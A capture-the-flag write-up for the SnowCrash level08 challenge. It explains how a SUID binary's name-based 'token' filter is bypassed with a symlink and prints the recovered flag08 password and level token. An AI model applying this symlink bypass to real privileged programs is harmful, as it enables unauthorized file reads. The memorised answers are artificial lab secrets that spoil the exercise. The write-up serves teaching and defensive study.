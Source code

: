 # Level08: Bypassing Filename Checks

## Vulnerability Analysis

Upon logging in as level08, we found the following files in the home directory:

```console
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

This showed:

- An executable binary `level08` with SUID bit set (owned by flag08)
- A file called `token` with strict permissions (only readable by flag08)

## Binary Analysis

Using Ghidra to decompile the `level08` binary, the following C code snippet reveals that the program attempts to prevent access to files containing "token" in their name using `strstr`.

```c
  // Check if the filename contains "token"
  pcVar1 = strstr(argv[1], "token");
  if (pcVar1 != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(1);
    }
  // Open the file (vulnerable step)
  fd = open(argv[1], O_RDONLY);
  // ... read and print file content ...
```

The binary has the SUID bit set, meaning it runs with the privileges of its owner (flag08), which allows it to read files that the current user (level08) cannot access directly.

## The Vulnerability

The vulnerability lies in the naive string check: the program only checks if the string "token" appears in the filename argument, not whether the file being accessed is actually the token file.

This is a classic security issue where path validation is performed on the filename string rather than on the actual file identity (inode).

## Exploitation

We can bypass this check by creating a symbolic link to the token file with a name that doesn't contain the string "token":

```console
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/nekot
level08@SnowCrash:~$ ./level08 /tmp/nekot
quif5eloekouj29ke0vouxean
```

- `ln`: Creates links between files.

- `-s`: Creates a symbolic link (symlink) instead of a hard link. A symbolic link is like a shortcut that points to another file.

## Why This Works

1. The symbolic link `/tmp/nekot` points to the actual token file
2. When `level08` checks the filename, it sees "nekot" which doesn't contain "token"
3. The check passes, and the program proceeds to open the file
4. Because of the SUID bit, the program opens the file with flag08's privileges
5. After opening the file, the program reads and displays its contents

This is a classic example of the difference between validating the name of a resource versus validating the resource itself, a common security pitfall.

## Token

After reading the token file, we obtained: `quif5eloekouj29ke0vouxean`

This is the password for the flag08 user, not the actual token for the level. To get the token:

```console
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

The actual token for level08 is: `25749xKZ8L7DkSCwJkT9dyv6f`

This token allows access to the level09 user account.

## Security Lesson

This level demonstrates several important security concepts:

1. Path traversal vulnerabilities
2. The importance of proper file validation
3. How symbolic links can be used to bypass naive security checks
4. The risks associated with SUID binaries combined with inadequate input validation
